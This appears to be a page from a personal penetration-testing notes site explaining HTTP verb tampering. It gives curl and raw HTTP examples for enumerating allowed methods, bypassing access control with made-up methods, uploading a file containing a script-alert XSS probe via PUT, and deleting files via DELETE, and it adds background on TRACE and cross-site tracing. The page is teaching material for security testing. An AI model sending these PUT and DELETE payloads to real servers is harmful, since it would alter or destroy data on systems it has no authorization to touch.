

repository: amandaguglieri/hackinglife · page: webexploitation/http-verb-tampering/index.html · generator: mkdocs

---
title: HTTP Verb Tampering
draft: false
TableOfContents: true
tags:
  - pentesting
  - web
  - pentesting
---
# HTTP Verb Tampering

HTTP method tampering, also known as HTTP verb tampering, is a type of security vulnerability that can be exploited in web applications. HTTP method tampering occurs when an attacker modifies the HTTP method being used in a request to trick the web application into performing unintended actions.

[More about HTTP methods](../http-headers.md).

![http request](../img/http01.png)


## Test Objectives

- Enumerate supported HTTP methods.
- Test for access control bypass.
- Test HTTP method overriding techniques.


Enumerate with OPTIONS:

```bash
curl -v -X OPTIONS <target>
```

Test access control bypass with a made-up method:

```bash
curl -v -X FAKEMETHOD <target>
```

Or test access control bypass with other methods.

### PUT 

After enumerating methods with Burpsuite:

```
OPTIONS /uploads HTTP/1.1
Host: example.org
```

We obtained as response:

```
HTTP/1.1 200 OK
Date: ....
....
Allow: OPTIONS,GET,HEAD,POST,PUT,DELETE,TRACE,PROPPATCH,COPY,MOVE,LOCK
```

Then, we can try to upload a file by using Burpsuite. Typical payload:

```
PUT /test.html HTTP/1.1
Host: example.org
Content-Length: 25

<script>alert(1)</script>
```

Try to upload a file by using curl. Typical payload:

```bash
curl https://example.org --upload-file test.html
curl -X PUT https://example.org/test.html -d "<script>alert(1)</script>"
```

### DELETE

Try to delete a file by using Burpsuite. Typical payload:

```
DELETE /uploads/file1.pdf HTTP/1.1
Host: example.org
```

Try to delete a file by using curl. Typical payload:

```bash
curl -X DELETE https://example.org/uploads/file1.pdf
```

### TRACE

The `TRACE` method (or Microsoft’s equivalent `TRACK` method) causes the server to echo back the contents of the request. This led to a vulnerability called Cross-Site Tracing (XST), which could be used to access cookies that had the `HttpOnly` flag set. The `TRACE` method has been blocked in all browsers and plugins for many years; as such, this issue is no longer exploitable. However, it may still be flagged by automated scanning tools, and the `TRACE` method being enabled on a web server suggests that is has not been properly hardened.
